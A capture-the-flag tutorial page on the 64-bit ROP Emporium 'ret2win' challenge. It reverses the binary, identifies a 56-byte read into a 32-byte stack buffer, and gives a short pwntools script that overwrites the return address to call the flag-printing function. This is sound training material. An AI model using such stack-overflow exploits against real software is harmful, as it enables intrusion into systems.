 ```yaml
---
description: Building a ROP chain for a ret2win binary.
---
```


# rop2win

{% file src="../../.gitbook/assets/rop2win.zip" %}

All the challenges in this section are going to be 64-bit challenges. ROP in 32-bit is almost trivial because we pass parameters on the stack rather than the registers, meaning crafting payloads is super simple. In 64-bit, we need to find ways to load the registers with our desired parameters, which is much more difficult.

The challenge is very similar to [win64](../win64/win64.md). We need to be mindful that we are in 64-bit.

{% hint style="info" %}
_This challenge, along with all the others, are the 64-bit renditions from ROP emporium. They are by far the best resource for learning how to do ROP._
{% endhint %}

### Static Analysis

The primary functions we see in the binary are:

```as
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
```

**`ret2win()`**

This function is straightforward. The string values are statically loaded, and we can easily reverse this function:

```c
void win()
{
    puts("Well done! Here's your flag:");
    system("/bin/cat flag.txt");
}
```

**`main()`**

This function makes a series of back-to-back `puts()` calls and then calls `read_in`. In 64-bit, these calls are super easy to interpret, given that you know the parameter register order.

```c
int main()
{
    setvbuf(stdout, 0, 2);
    puts("ret2win by ROP Emporium");
    puts("x86_64\n");
    pwnme();
    puts("\nExiting");
    return 0;
}
```

**`pwnme()`**

Like the last two, we can pretty easily determine the C code for this function. The only one that's confusing is `memset`, whose declaration is in the `man` pages.

```cpp
void *memset(void *s, int c, size_t n);
```

Based on what's loaded to the registers, we can tell the function call is `memset(rbp-0x20, 0, 0x20)`:

```as
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
```

Let's put the rest of the function together:

```c
void pwnme()
{
    memset(rbp-0x20, 0, 0x20);
    puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
    puts("What could possibly go wrong?");
    puts("You there, may I have your input please? And don't worry about null bytes, we're using read()!\n");
    printf("> ");
    read(0, rbp-0x20, 0x38);
    puts("Thank you!");
    return;
}
```

{% hint style="info" %}
_If you're struggling to put the C code together, that's okay!_ This is one of the hardest parts of binary exploitation. It comes with lots of practice! Keep practicing using `gdb` to dissect binaries. Try making your own, then looking at them to reassemble the code you wrote.
{% endhint %}

Based on this code, we see a clear buffer overflow vulnerability. We are reading `0x38=56` bytes into the `0x20=32` byte buffer allocated.

### Writing the Payload

Like win64, we need to track the following information:

1. What is the size of the buffer? In our case, it's `0x20` bytes to the base pointer, plus `0x8` bytes for the base pointer, totaling `0x28=40` bytes.
2. Where are we going? We need to overwrite the return pointer with the address of `win()`, which is at `0x400756`.
3. Does our input cause the `movaps` instruction to fail? Our payload is `48` bytes in total, which is divisible by `16`, meaning that we should be fine.

Let's write the exploit just like we wrote the win64 one:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = process('./rop2win')

f_win = 0x400756

padding = b'A' * 40

ropChain = b''
ropChain += p64(f_win)

buf = padding + ropChain

print(proc.recvuntil(b'> '))
proc.sendline(buf)
proc.interactive()
```
{% endcode %}

Two notes here:

1. We will consistently read until the `>` before sending our input because that's how ROP emporium formats their challenges.
2. We will distinguish between padding and payload (ROP chain) to illustrate the difference.

Most of our exploit files for this section will look the same. We will establish our process, then our critical functions and gadgets, build the padding and ROP chain and then send it to the process.

If we send this off, we'll get our flag!
